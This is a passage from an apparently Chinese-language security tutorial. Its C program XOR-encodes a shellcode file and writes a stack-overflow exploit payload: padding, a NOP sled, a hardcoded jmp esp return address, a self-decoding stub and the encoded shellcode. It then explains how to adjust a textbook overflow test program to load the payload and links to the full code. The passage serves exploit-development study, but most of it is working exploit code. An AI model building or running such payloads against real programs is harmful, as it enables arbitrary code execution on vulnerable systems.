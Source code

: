 ```
	{
		delete[] p;
		return NULL;
	}
	return p;
}
int main(int argc, char* argv[])
{
	char *szFilePath="c:\\test\\shellcode.bin";
	char *szFilePath2="c:\\test\\shellcode2.bin";
	unsigned char *BinData = NULL;
	size_t size = 0;	
	BinData = ReadBinaryFile(szFilePath, &size);
	for(int i=0;i<size;i++)
	{
		BinData[i]=BinData[i]^0x44;
	}
	FILE* f = NULL;	
	f = fopen(szFilePath2, "wb");
	if (f == NULL)
	{
		printf("Create error\n");
		return 0;
	}
	char filler[]="\x34\x33\x32\x31\x34\x33\x32\x31\x34\x33\x32\x31\x34\x33\x32\x31\x34\x33\x32\x31\x34\x33\x32\x31\x34\x33\x32\x31\x34\x33\x32\x31\x34\x33\x32\x31\x34\x33\x32\x31\x34\x33\x32\x31";
	char nop[]="\x90\x90\x90\x90\x90\x90\x90\x90";
	char jmpesp[]="\x53\x93\xD2\x77";
	char decode[]="\x83\xC2\x14\x33\xC9\x8A\x1C\x0A\x80\xF3\x44\x88\x1C\x0A\x41\x80\xFB\x91\x75\xF1";
	char end[]="\xD5";
	fwrite(filler,sizeof(filler)-1,1,f);
	fwrite(nop,sizeof(nop)-1,1,f);
	fwrite(jmpesp,sizeof(jmpesp)-1,1,f);
	fwrite(decode,sizeof(decode)-1,1,f);
	fwrite(BinData,size,1,f);
	fwrite(end,1,1,f);
	fclose(f);
}
```

运行后生成shellcode2.bin


由于我们自己生成的这个shellcode长度较长，在测试时需要对原书中的栈溢出程序作修改，否则会报错，例如
`if(!(fp=fopen("password.txt","rw+")))`
应修改为
`if(!(fp=fopen("password2.txt","rb")))`

更多细节可参考完整代码，栈溢出测试程序的完整代码已上传至github，地址如下：

https://github.com/3gstudent/Shellcode-Generater/blob/master/stackoverflowExample(jmpesp).cpp
